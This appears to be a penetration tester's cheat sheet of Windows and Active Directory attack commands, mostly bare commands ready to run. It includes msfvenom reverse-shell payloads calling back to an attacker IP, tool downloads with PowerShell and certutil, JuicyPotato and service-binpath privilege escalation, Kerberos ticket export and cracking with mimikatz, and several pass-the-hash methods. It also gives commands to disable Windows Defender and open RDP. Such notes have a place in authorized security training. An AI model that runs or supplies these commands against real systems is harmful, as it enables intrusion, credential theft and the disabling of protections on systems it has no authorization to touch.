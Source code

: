

**[+] Create reverse shell using msfvenom**

```
// Meterpreter
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.126 LPORT=443 -f exe > reverse.exe
// TCP
msfvenom -p  windows/shell/reverse_tcp LHOST=192.168.119.126 LPORT=443 -f exe > reverse.exe
```

**[+] Upload file using Powershell**

```
powershell.exe $ProgressPreference = 'SilentlyContinue'; Invoke-WebRequest http://192.168.50.48/ASREPRoast.ps1 -OutFile C:\users\hitman\ASREPRoast.ps1
```

**[+] Upload file using certutil.exe**

```
certutil.exe -urlcache -f http://192.168.50.48/Rubeus.exe C:\users\hitman\Rubeus.exe
```

**[+] Privilege escalation using juicy potato (Sometimes you need to attach CLSID)**

```
JuicyPotato.exe -l 13373 -p c:\windows\system32\cmd.exe -a "/c c:/users/public/reverse.exe" -t *
```

**[+] Request Ticket (powershell)**

```
Add-Type -AssemblyName System.IdentityModel  

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLService/ufc-db1.us.funcorp.local"  
```

**[+] Export Tickets using mimikatz**

```
mimikatz # kerberos::list /export  
```

**[+] Crack ticket using Tgsrepcrack.py (You can use john too or hashcat)**

```
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.hitmanalharbi.local~1433-boo.LOCAL.kirbi  
```

**[+] Pass the hash using pth-winexe (Available in Kali Linux)**

```
pth-winexe -U USER%aad3b435b51404eeaad3b435b51404ee:NTLM //IP cmd
```

**[+] Access RDP using pass the hash (xfreerdp tool)**

```
xfreerdp /u:username /pth:NTLM /d:domain /v:IP
```

**[+] Pass the hash using PsExec.py**

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:NTLM sqldevadmin@192.168.50.49
```


**[+] enum SMB shares using smbclient (Smbclient available in Kali Linux)**

```
smbclient -L IP
```

**[+] Bypass Powershell Execution Policy**

```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted

or run powershell like this:

powershell.exe -ep bypass
```

**[+] PowerUp.ps1  "Good powershell script for windows privilege escalation"**

```
C:> powershell.exe -nop -exec bypass

PS C:\> Import-Module PowerUp.ps1

PS C:\> Invoke-AllChecks | Out-File -Encoding ASCII checks.txt
```

**[+] Weak service permissions privilege escalation**

```
C:\Users\victim\Desktop>accesschk64 -uwcqv "victim" *

Accesschk v6.14 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

RW SNMPTRAP
        SERVICE_ALL_ACCESS

C:\Users\victim\Desktop>sc qc SNMPTRAP

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: SNMPTRAP
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\System32\snmptrap.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : SNMP Trap
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\Users\victim\Desktop>sc config SNMPTRAP binpath= "net localgroup administrators victim /add"
[SC] ChangeServiceConfig SUCCESS

C:\Users\victim\Desktop>sc config SNMPTRAP obj= ".\LocalSystem" password= ""

[SC] ChangeServiceConfig SUCCESS

C:\Users\victim\Desktop>sc start SNMPTRAP
```

**[+] Disable windows defender (Need privileges)**

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v DisableRealtimeMonitoring /t REG_DWORD /d 1

powershell.exe Set-MpPreference -DisableRealtimeMonitoring $true
```

**[+] Sharphound command**

```
// EXE version
./SharpHound.exe --CollectionMethod All

// Powershell version
Invoke-BloodHound -CollectionMethod All
```

**[+] Enable RDP, and allow it in the firewall too (Need privileges)**

```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```
